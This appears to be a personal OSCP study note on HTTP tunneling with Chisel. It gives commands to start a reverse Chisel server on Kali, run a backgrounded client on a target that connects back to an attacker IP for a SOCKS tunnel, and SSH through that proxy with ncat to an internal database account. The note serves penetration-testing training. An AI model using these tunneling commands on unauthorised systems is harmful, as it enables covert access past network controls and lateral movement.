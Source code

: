 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/k-port-redirection-and-tunneling/3-http-tunneling/","updated":"2024-01-05T11:36:22.696+01:00"}
---
```


- Good for when only http is allowed
- Can't use SSH tunnel because of packet inspection
- Chisel creates a HTTP tunnel with SSH inside for encryption
- Chisel exists for all OSes and architectures which other tools like HTTPTunnel does not
- Chisel server listens on TCP port 1080 which is a SOCKS port

-----------
## Chisel HTTP Dynamic/Reverse Port Forwarding + SSH with SOCKS:
1. Get correct binary to target machine from https://github.com/jpillora/chisel/releases/
2. Start Chisel server on kali:
```
chisel server --port 8080 --reverse
```
3. Connect to server using Chisel client:
```
/tmp/chisel client 192.168.45.180:8080 R:socks > /dev/null 2>&1 &
```
4. Connect using SOCKS and win!
5. SSH with SOCKS using ncat:
```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```
